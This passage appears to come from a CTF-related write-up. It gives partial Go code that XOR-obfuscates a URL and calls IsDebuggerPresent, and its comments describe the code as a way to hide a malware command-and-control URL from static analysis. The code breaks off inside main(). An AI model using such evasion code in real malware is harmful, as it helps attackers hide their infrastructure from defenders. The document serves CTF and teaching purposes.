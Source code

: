 As we can see URL could be build with hexadecimal characters due to [RFC 1738 - Uniform Resource Locator](https://tools.ietf.org/html/rfc1738). Code has been implemented by me and it has been used for a CTF challenge. Note that this challenge did not include antidebug function. Finally, code is shown below. 

<pre><code class="language-go">
/*
Author: Luis Fueris
Date: January 24, 2021
Description: this sample code shows a function that encrypt/decrypt (please,
erase comments if you want to do cipher operation) an URL dynamically. It 
could be use to hide a C2 URL from static analysis

*/
package main

import (
    "fmt"
    "os"
    "syscall"
)

// Windows DLL definitions. Note that these DLL could be define in another
// file (winmods for instance)
var (
    ModKernel32 = syscall.NewLazyDLL("kernel32.dll")
    ProcIsDebuggerPresent = ModKernel32.NewProc("IsDebuggerPresent")
)

// URL length
var LEN = 23


// Implements XOR bitwise operation to URL string
//
func encryptUrl(url []string, key []byte) []byte {
    bLetter := make([]byte, 1)
    cipherLetter := make([]byte, 1)
    cipherUrl := make([]byte, LEN)

    for i, letter := range url {
        bLetter = []byte(letter)
        for j, bit := range bLetter {
            cipherLetter[j] = bit ^ key[j]
        }

        cipherUrl[i] = cipherLetter[0]
    }

    return cipherUrl
}

// Main program checks is a debugger is present and calls cipherUrl() function
// in order to decrypt malicious URL. It should be noted that XOR cipher uses
// same function to encrypt and decrypt so if you want to encrypt something, 
// please erase comments (oUrl var) and call encryptUrl() 
//
func main() {
